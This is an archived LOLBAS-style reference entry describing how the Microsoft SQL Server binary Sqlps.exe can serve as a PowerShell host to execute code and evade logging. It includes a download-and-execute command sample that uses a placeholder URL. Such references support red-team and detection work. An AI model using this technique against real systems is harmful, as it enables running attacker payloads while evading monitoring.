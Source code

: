 # UPDATE BOOKMARKS - PROJECT MOVED TO A DEDICATED PROJECT SITE. THIS SITE WILL NOT BE UPDATED ANYMORE, BUT WILL BE KEPT FOR HISTORICAL REASONS.
New site: https://github.com/LOLBAS-Project/LOLBAS
Web portal: https://lolbas-project.github.io/ 
## Sqlps.exe

* Functions: Execute, evade logging

```
Sqlps.exe -noprofile
```

Acknowledgements:
* Bryon - @bryon_

Code sample:

* Downloading & executing a file

```
C:\Users>"C:\Program Files (x86)\Microsoft SQL Server\100\Tools\Binn\SQLPS.exe"
PS SQLSERVER> (New-Object net.webclient).downloadfile("http://<source file URL>","<local save path>")
PS SQLSERVER> ii <downloaded executable>
# ii is shorthand for Invoke-Item
```

Notes

* Path above may vary slightly. If '100' is invalid, try replacing '100' with '110', this was required in a lab setup.

Resources:
* https://twitter.com/bryon_/status/975835709587075072

Full path:
```
C:\Program files (x86\Microsoft SQL Server\100\Tools\Binn\sqlps.exe
```

Notes:
A Powershell host.



